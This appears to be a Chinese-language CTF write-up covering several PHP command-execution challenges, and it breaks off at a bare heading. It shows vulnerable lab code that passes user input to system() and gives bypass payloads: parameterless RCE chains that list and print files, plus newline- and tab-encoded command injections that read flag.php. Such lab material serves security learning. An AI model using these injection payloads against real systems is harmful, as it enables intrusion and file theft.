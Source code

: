 禁掉了 \不能用伪协议

禁掉了 \`    不能使用echo 

禁掉了 ”“ 和 ‘ ’ ,[ ] 不能使用带参数的函数（正则表达式里面ban的是中文括号） 

这里使用无参RCE

```
遍历目录 print_r(scandir(current(localeconv())));
show_source(array_rand(array_flip(scandir(current(localeconv())))));
show_source(next(array_reverse(scandir(current(localeconv())))));
```

也可以使用 session_id(session_start()),但是没有成功，因为session_id规定为0-9，a-z,A-Z,-中的字符

## 41 未解出

## 42

与43相同

## 43  绕过 >/dev/null 2>&1

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

这里有一个>/dev/null 2>&1

参考链接:https://www.cnblogs.com/ultranms/p/9353157.html

总之就是将输出丢弃

这里可以利用换行符绕过,也可以使用||

```
c=ls%0a
c=c\at flag.php%0a
```

## 47

又过滤了几个查看文件命令

```
nl%09fla?.php%0a
```

## 50

